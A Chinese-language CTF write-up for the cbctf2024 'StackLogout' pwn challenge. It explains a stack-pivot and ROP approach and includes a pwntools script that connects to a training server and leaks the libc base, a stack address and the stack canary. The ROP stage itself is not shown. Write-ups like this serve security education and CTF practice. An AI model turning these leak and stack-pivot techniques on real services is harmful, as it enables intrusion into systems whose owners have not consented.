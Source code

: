 ## 题解

不需要在`pwnShell`中做其他事，直接`logout`。然后在`who`中输入`\xe0`并确认，以此在`logout`中泄露
libc。类似的，参照上面的图，泄露出stack和canary。然后借助cve把`toread`写成`0x48`，在`who`
中再次输入，覆盖正确的canary并设置rbp。然后在`logout`中确认，成功栈迁移并运行rop链。

![overflow](/assets/cbctf2024/overflow.png)

需要注意的是，覆写rbp时不能留`who`函数的栈帧地址，因为`who`返回到`logout`后还要做`strchr`，
在这个过程中，复制的东西会被覆写掉。还记得`who`退出前把缓冲区中的内容复制回`logout`了吗？
借助这个功能，选择将栈迁移到`logout`的缓冲区即可成功执行rop链。

![rop](/assets/cbctf2024/rop.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './docker/StackLogout'

def payload(lo: int):
    global sh
    global gadgets
    if lo:
        if lo & 2:
            sh = remote('127.0.0.1', 3073)
            gdb.attach(('127.0.0.1', 4097), 'b *who+387', EXE)
        else:
            sh = remote('127.0.0.1', 2049)
    else:
        sh = remote('training.0rays.club', 10016)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8_amd64/libc.so.6')

    def logout(buf: bytes, confirm: bool, go_on: bool, buf2: bytes=b'') -> bytes:
        sh.sendafter(b'user', buf)
        if confirm:
            sh.sendlineafter(b'confirm', b'y')
        else:
            sh.sendlineafter(b'confirm', b'n')
            if lo & 2:
                pause()
            sh.send(buf2)

        sh.recvuntil(b'you? ')                          # strip ' [y/n]'
        return sh.sendlineafter(b' [y/n]', b'n' if go_on else b'y')[:-6]

    sh.sendlineafter(b'psh', b'logout')
    reply = logout(b'\xe0', True, True)
    libcBase = u64(reply + b'\0\0') - libc.symbols['_IO_2_1_stdin_']
    libc.address = libcBase
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))

    reply = logout(b'STACK'.rjust(8), True, True)
    # stack under logout is unstable!
    stack = u64(reply[reply.index(b'STACK') + 5:] + b'\0\0') - 0x60
    success(GOLD_TEXT(f"Leak stack: {stack:#x}"))

    reply = logout(b'CANARY'.rjust(0x19), True, True)
    canary = u64(b'\0' + reply[reply.index(b'CANARY') + 6:][:7])
    success(GOLD_TEXT(f"Leak canary: {canary:#x}"))
```